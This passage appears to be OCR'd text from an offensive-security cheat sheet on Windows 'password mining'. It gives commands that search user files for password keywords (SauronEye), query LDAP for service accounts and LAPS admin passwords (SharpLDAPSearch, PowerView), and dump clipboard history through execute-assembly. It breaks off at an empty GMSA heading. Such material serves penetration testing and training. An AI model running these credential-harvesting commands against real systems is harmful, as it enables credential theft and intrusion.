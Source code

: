 Domain: No

Local Admin: Yes

OS: Windows

Type: Enumeration & Hunt

Methods:

1\.

SauronEye.exe -d C:\\Users\\vincent\\Desktop\\ \--filetypes .txt .doc
.docx .xls \--contents \--keywords password pass\* -v\`

<a name="password-mining-in-ldap"></a>
# Password Mining in LDAP

Domain: No

Local Admin: Yes

OS: Windows

Type: Enumeration & Hunt

Methods:

1\.

SharpLDAPSearch.exe \"(&(objectClass=user)(cn=\*svc\*))\"
\"samaccountname\"

Or

Import-Module .\\PowerView.ps1

Get-DomainComputer COMPUTER -Properties
ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime

<a name="password-mining-in-clipboard"></a>
# Password Mining in Clipboard

Domain: No

Local Admin: Yes

OS: Windows

Type: Enumeration & Hunt

Methods:

1\.

execute-assembly /root/SharpClipHistory.exe

<a name="password-mining-in-gmsa-password"></a>
# Password Mining in GMSA Password
